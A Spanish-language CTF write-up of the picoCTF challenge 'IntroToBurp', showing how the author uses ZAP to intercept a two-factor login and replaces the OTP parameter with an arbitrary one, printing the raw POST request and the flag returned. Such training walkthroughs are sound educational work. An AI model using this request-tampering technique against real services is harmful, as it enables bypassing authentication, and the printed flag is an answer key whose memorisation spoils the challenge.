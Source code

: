 ```yaml
---
title: IntroToBurp
date: 2025-04-14 22:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, introburp, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>IntroToBurp
Author: Nana Ama Atombo-Sackey & Sabine Gisagara
Description
Try here to find the flag
{: .prompt-tip }

Para este reto nos muestran una web con un formulario, nos dan una pista con el propio nombre del reto "IntroToBurp"
Bueno yo sigo pensando que Zap me sirve y además es gratis así que capturo con Zap la request y observo.
Después del primer envío nos envía a otra web donde nos pide un código OPT.

2fa authentication

Hay una pista que nos indica como debemos proceder:
"Intente alterar la solicitud; tal vez su código del lado del servidor no maneja muy bien las solicitudes malformadas."
cambio el parámetro OPT otp=6 por uno inventado. 
```
POST http://titan.picoctf.net:61730/dashboard HTTP/1.1
host: titan.picoctf.net:61730
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
content-length: 9
Origin: http://titan.picoctf.net:61730
Connection: keep-alive
Referer: http://titan.picoctf.net:61730/dashboard
Cookie: session=.eJxFjMEOwiAQRP-FswdhoS3-DCnb3WhsgSwQY4z_LhfT47yZeR-Fj_ZWNxW7FHVRWIVDy09KgxnvGVenpxgnxxw1snUM3qO5otYIC9AGix0_7vse0nrQqcqtjOCsnmcYsay1vrJs56Dcc6KQ-hFJBgVrwIIZRa8kf5f0or4_jV0yvQ.Z_2f7g.f3xqPKskvt-OIhIapOBzVYjdj1Y
Upgrade-Insecure-Requests: 1
Priority: u=0, i

test=aqaa
```
```
Welcome, brup you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}
```

flag: **picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}**

Supuestamente el provocar un error o introducir un dato distinto al deseado provoca el bypass del OPT. 
Como habrás notado Zap me ha servido tanto para capturar la solicitud como para modificarla. 